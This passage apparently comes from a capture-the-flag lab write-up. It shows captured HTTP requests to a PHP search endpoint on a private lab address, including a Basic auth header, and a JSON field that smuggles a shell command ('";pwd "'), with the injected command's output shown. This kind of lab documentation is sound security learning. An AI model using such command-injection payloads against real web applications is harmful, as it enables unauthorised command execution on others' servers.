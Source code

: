 ~~~
POST /assets/php/search.php HTTP/1.1
Host: 10.10.189.152
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.189.152/
Content-Type: text/plain;charset=UTF-8
Content-Length: 13
Authorization: Basic cmFzY2FsOnlvdW5nMQ==
Connection: close

{"target":""}


HTTP/1.1 200 OK
Date: Sun, 30 Aug 2020 15:08:48 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 45
Connection: close
Content-Type: text/html; charset=UTF-8

["creds2.txt","fox.txt","important-data.txt"]
~~~

Searching on the Internet for JSON command injections lead me [here](https://riptutorial.com/javascript/example/32217/evaled-json-injection) and using BurpSuite Repeater, I was able to inject a `pwd` command:

~~~
POST /assets/php/search.php HTTP/1.1
Host: 10.10.189.152
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.189.152/
Content-Type: text/plain;charset=UTF-8
Content-Length: 22
Authorization: Basic cmFzY2FsOnlvdW5nMQ==
Connection: close

{"target":"\";pwd \""}


HTTP/1.1 200 OK
Date: Sun, 30 Aug 2020 15:11:23 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 33
Connection: close
Content-Type: text/html; charset=UTF-8

["\/var\/www\/html\/assets\/php"]
~~~
